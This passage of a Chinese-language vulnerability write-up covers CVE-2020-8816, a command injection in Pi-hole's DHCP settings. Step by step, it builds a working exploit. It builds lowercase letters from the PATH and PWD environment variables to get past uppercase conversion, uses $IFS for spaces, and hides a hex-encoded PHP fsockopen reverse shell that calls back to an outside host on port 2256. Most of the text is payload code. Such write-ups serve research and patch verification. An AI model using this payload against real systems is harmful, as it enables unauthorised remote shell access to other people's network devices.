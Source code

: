 根据源码中的validMAC()函数，我们得知程序会对用户输入做一个基本的MAC地址格式判断，只要由12个字母或数字组成，就可以通过验证。

-   2、获取p,h,r的小写字符

```{=html}
<!-- -->
```
    SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}&&B=${PWD#/???/???/}&&H=${B%???/?????}&&C=${PWD#/??}&&R=${C%/???/????/?????}

原本的payload应该为：

    aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“target.0-sec.org”,2256);exec(“/bin/sh -i <&3 >&3 2>&3”);’

但是由于程序会对用户输入做一个大写转换，因此，php -r会变成PHP
-R，命令无法识别，因此需要找到一种方式获取p、h、r的小写字符。

可以使用环境变量，变量名都是大写字母，而变量值中可能包含各种小写字母。

在浏览器中进入http://www.0-sec.org/admin，登陆后，选择Setting-\>DHCP选项卡，先试一下PATH变量，输入aaaaaaaaaaaa\$PATH，结果显示：

![1.png](./resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId26.png)

很遗憾，没有h字符，看来还需要找其他环境变量。我在env命令的执行结果中找到了PWD变量，输入试一下：

![2.png](./resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId27.png)

里面有h和r，所以，我可以使用PATH和PWD两个环境变量，获得p、h、r这几个字符。

我使用了[Shell参数扩展](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html)对这两个变量值进行截取：

    p:
        SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}
    h:
        B=${PWD#/???/???/}&&H=${B%???/?????}
    r:
        C=${PWD#/??}&&R=${C%/???/????/?????}

根据[模式匹配](https://www.gnu.org/software/bash/manual/html_node/Pattern-Matching.html#Pattern-Matching)的规则，应该可以写出更简洁的方法，但是我的系统中好多shell选项都没有开启，考虑到通用性，我就直接选择了最傻瓜的匹配方式。

3、获得反向shell

    $P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'

先把变量换成对应的字符，注意上面的`$IFS`是shell的一个内定变量，默认为`<space><tab><newline>`，这里代替空格。

    php -r 'exec(hex2bin("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"))'

然后替换`hex2bin`的执行结果（转义符是我后加的）：

    php -r 'exec(php -r \'$sock=fsockopen("target.0-sec.org",2256);exec("/bin/sh -i <&3 >&3 2>&3");\')'

这段代码就可以获得一个反向shell。

漏洞复现
--------
